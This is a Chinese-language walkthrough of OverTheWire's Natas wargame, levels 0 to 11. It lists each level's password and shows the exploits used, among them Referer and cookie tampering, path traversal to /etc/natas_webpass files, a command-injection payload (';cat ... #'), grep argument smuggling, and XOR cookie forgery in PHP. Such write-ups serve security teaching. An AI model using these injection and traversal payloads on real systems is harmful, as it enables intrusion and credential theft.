## Level 0

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas0</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>natas0</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas0.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 提示：`You can find the password for the next level on this page.`
- 使用开发者工具查看页面源代码即可获得下一关的口令<br>


## Level 1

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas1</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>gtVrDuiDfck831PqWsLEZy5gyDz1clto</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas1.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 提示：`You can find the password for the next level on this page, but rightclicking has been blocked!`（但是咕咕几乎不怎么用右键查看页面源代码的(╮ŏωŏ)╭）
- 使用开发者工具查看页面源代码即可获得下一关的口令<br>


## Level 2

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas2</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas2.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 提示：`There is nothing on this page`
- 查看页面源代码，发现使用了一张`files`路径下的图片（因为只有 1X1 的大小，所以页面上看不到）<br>

- 访问 http://natas2.natas.labs.overthewire.org/files ，发现该路径下还有一个 *users.txt* 文件，查看该文件获得用户 *natas3* 的口令
  ```
  # username:password
  alice:BYNdCesZqW
  bob:jw2ueICLvT
  charlie:G5vCxkVV3m
  natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
  eve:zo4mJWyNj2
  mallory:9urtcpzBmH
  ```

## Level 3

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas3</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas3.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 这次页面上依然是`There is nothing on this page`，查看页面源代码，发现一段注释信息：`No more information leaks!! Not even Google will find it this time...`
- 嗯？怎么能让谷歌抓取不到网站的？
  > 网站所有者可以详细规定处理其网页的方式，申请重新抓取，或使用 robots.txt 文件完全禁止谷歌抓取工具抓取他们的网站

- 访问 http://natas3.natas.labs.overthewire.org/robots.txt ，查看 *robots.txt* 文件
  ```bash
  # 禁止所有爬虫爬取路径 /s3cr3t
  User-agent: *
  Disallow: /s3cr3t/
  ```
- 目标指向 http://natas3.natas.labs.overthewire.org/s3cr3t/ ，访问可查看到该路径下的一个 *users.txt* 文件，其中包含下一关的口令
  ```
  natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
  ```

### 参考资料

- [Google 搜索的工作方式 | 抓取和编入索引](https://www.google.com/intl/zh-CN/search/howsearchworks/crawling-indexing/)
- [Robots.txt Specifications  |  Search for Developers  |  Google Developers](https://developers.google.com/search/reference/robots_txt)

## Level 4

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas4</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas4.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 进入后提示<br>

- 点击 *Refresh page* 后，从 http://natas4.natas.labs.overthewire.org 进入 http://natas4.natas.labs.overthewire.org/index.php ，且提示文本发生变化<br>

- 在 HTTP 请求头中包含 *Referer* 字段，用于标识访问来源，提示信息中 *visit from* 的意义与值均与 *Referer* 字段相同，那么将 *Referer* 字段的值改为`http://natas5.natas.labs.overthewire.org/`，再次发送 HTTP 请求即可<br>
<br>


## Level 5

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas5</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas5.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 进入后提示没有登录！(╥ω╥)<br>

- 查看 HTTP 请求头，发现 *Cookie* 字段为`loggedin=0`，非常可疑(—ˋωˊ—)！<br>

- 将`loggedin=0`修改为`loggedin=1`并发送 HTTP 请求，成功登录！<br>


## Level 6

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas6</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas6.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 出现输入框了！<br>

- 先看看源代码
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas6</h1>
  <div id="content">

  <?

  include "includes/secret.inc";
  # 使用的是相对路径

      if(array_key_exists("submit", $_POST)) {
          # 需要知道 $secret 的值
          if($secret == $_POST['secret']) {
          print "Access granted. The password for natas7 is <censored>";
      } else {
          print "Wrong secret";
      }
      }
  ?>

  <form method=post>
  Input secret: <input name=secret><br>
  <input type=submit name=submit>
  </form>

  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 注意到 *include* 文件使用的是相对路径，访问 http://natas6.natas.labs.overthewire.org/includes/secret.inc ，在网页源代码中看到变量 *$secret* 的值<br>

- 回到 http://natas6.natas.labs.overthewire.org ，输入密码，获得 *natas7* 的口令<br>


## Level 7

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas7</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>7z3hEENjQtflzgnT29q7wAvMNfZdh0i9</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas7.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 首页给出了 *Home* 和 *About* 页面的链接，并提示 *natas8* 的口令存储在`/etc/natas_webpass/natas8`<br>

- 通过 GET 方式传递参数给 *index.php*，那么除了`home`和`about`，随便传一个值试试叭(—ˋωˊ—)<br>

- `include()`首先查看传入的文件路径（由上图可知，传入`include()`函数的参数即为 *page* 变量的值），其次查看定义的`include_path`，最后检查调用脚本所在的目录和当前工作目录。那么可通过`page=/etc/natas_webpass/natas8`或`page=../../../../etc/natas_webpass/natas8`来获得下一关的口令

### 参考资料

[PHP: include - Manual](https://www.php.net/manual/en/function.include.php)

## Level 8

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas8</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas8.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 再次出现输入框，先查看源代码
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas8</h1>
  <div id="content">

  <?

  $encodedSecret = "3d3d516343746d4d6d6c315669563362";

  function encodeSecret($secret) {
      return bin2hex(strrev(base64_encode($secret)));
  }
  # 输入经过 Base64 编码、字符串反转，最后转化为十六进制字符串
  # 结果要与 $encodedSecret 相等
  if(array_key_exists("submit", $_POST)) {
      if(encodeSecret($_POST['secret']) == $encodedSecret) {
      print "Access granted. The password for natas9 is <censored>";
      } else {
      print "Wrong secret";
      }
  }
  ?>

  <form method=post>
  Input secret: <input name=secret><br>
  <input type=submit name=submit>
  </form>

  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 对`$encodedSecret`进行逆操作，以得到要提交的`secret`的值
  ```bash
  $ echo 0x3d3d516343746d4d6d6c315669563362 | xxd -r | rev | base64 -d
  oubWYf2kBq
  ```
- 提交即可获取口令<br>


## Level 9

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas9</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas9.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 要求的输入发生变化了<br>

- 总之先查看源代码
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas9</h1>
  <div id="content">
  <form>
  Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
  </form>


  Output:
  <pre>
  <?
  $key = "";

  if(array_key_exists("needle", $_REQUEST)) {
      $key = $_REQUEST["needle"];
  }

  if($key != "") {
      passthru("grep -i $key dictionary.txt");
  }
  ?>
  </pre>

  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 输入没有经过任何处理直接放到命令字符串里了！这样一来，可就不能只执行一个命令了哦~👿提交`;cat /etc/natas_webpass/natas10 #`，拼接后的命令如下
  ```bash
  grep -i ;cat /etc/natas_webpass/natas10 # dictionary.txt
  ```
- 成功获得下一关的口令<br>


## Level 10

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas10</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas10.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 这回会过滤掉一些字符(ŏωŏ)<br>

- 通过源代码，发现分隔符被过滤掉了(╥ω╥)
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <body>
  <h1>natas10</h1>
  <div id="content">

  For security reasons, we now filter on certain characters<br/><br/>
  <form>
  Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
  </form>


  Output:
  <pre>
  <?
  $key = "";

  if(array_key_exists("needle", $_REQUEST)) {
      $key = $_REQUEST["needle"];
  }

  if($key != "") {
      # 过滤掉了分隔符
      if(preg_match('/[;|&]/',$key)) {
          print "Input contains an illegal character!";
      } else {
          passthru("grep -i $key dictionary.txt");
      }
  }
  ?>
  </pre>

  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 不过，`grep`可以同时处理多个文件，那么只要猜测`/etc/natas_webpass/natas11`文件内容中的一个字符就可以啦~（推荐猜数字(<ゝωΦ)，*0-9* 就可以，同时 *dictionary.txt* 文件中也不含数字）
  > Usage: grep [OPTION]... PATTERN [FILE]...
- 提交`1 /etc/natas_webpass/natas11`，惊喜！<br>


## Level 11

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>natas11</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>URL</td>
    <td>http://natas11.natas.labs.overthewire.org</td>
  </tr>
</tbody>
</table>

- 可以通过表单提交并设置背景颜色，提示：*Cookies 受异或加密保护* ？<br>

- 查看网页源代码，了解到需要通过 *Cookie* 设置`showpassword`的值为`yes`
  ```html
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  </head>
  <?

  # 变量 $defaultdata 中 showpassword 的初始值为 no
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = '<censored>';
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      # 异或运算，可通过将输入和输出异或得到变量 $key
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  function loadData($def) {
      # HTTP 请求头中包含的 Cookie 主要用于传递 showpassword 的值
      global $_COOKIE;
      $mydata = $def;
      if(array_key_exists("data", $_COOKIE)) {
      $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
      if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
          if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
          $mydata['showpassword'] = $tempdata['showpassword'];
          $mydata['bgcolor'] = $tempdata['bgcolor'];
          }
      }
      }
      return $mydata;
  }

  # 保存到 Cookie 中
  function saveData($d) {
      setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
  }

  # 将 Cookie 的值经过 Base64 解码、与密钥异或并转化为 json 格式赋值给变量 $data
  $data = loadData($defaultdata);

  # 接收通过 GET 请求（表单）提交的背景颜色并设置
  if(array_key_exists("bgcolor",$_REQUEST)) {
      if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
          $data['bgcolor'] = $_REQUEST['bgcolor'];
      }
  }

  saveData($data);

  ?>

  <h1>natas11</h1>
  <div id="content">
  <body style="background: <?=$data['bgcolor']?>;">
  Cookies are protected with XOR encryption<br/><br/>

  <?
  # 需要得到包含 $data["showpassword"] == "yes" 对应的 Cookie
  if($data["showpassword"] == "yes") {
      print "The password for natas12 is <censored><br>";
  }

  ?>

  <form>
  Background color: <input name=bgcolor value="<?=$data['bgcolor']?>">
  <input type=submit value="Set color">
  </form>

  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
- 直接提交表单，获得变量`$defaultdata`对应的 *Cookie*<br>

- 通过异或获得变量`$key`的值
  ```php
  <?php
  # calc.php
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
  $data = "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=";

  function xor_encrypt($in, $out) {
      $outText = '';
      for($i=0;$i<strlen($in);$i++) {
      $outText .= $in[$i] ^ $out[$i % strlen($out)];
      }
      return $outText;
  }

  echo xor_encrypt(base64_decode($data), json_encode($defaultdata));
  ?>
  ```
- 循环节长度为 4，轻松获得`$key`值：*qw8J*
  ```bash
  $ php -f calc.php
  qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
  ```
- 接下来获取目标 *Cookie*
  ```bash
  $ php -f calc.php
  ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
  ```
  ```php
  <?php
  # calc.php
  $targetdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = 'qw8J';
      $text = $in;
      $outText = '';
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }
      return $outText;
  }

  echo base64_encode(xor_encrypt(json_encode($targetdata)));
  ?>
  ```
- 编辑原 HTTP 请求头中的 *Cookie* 的值，并再次发送，成功获取下一关口令<br>
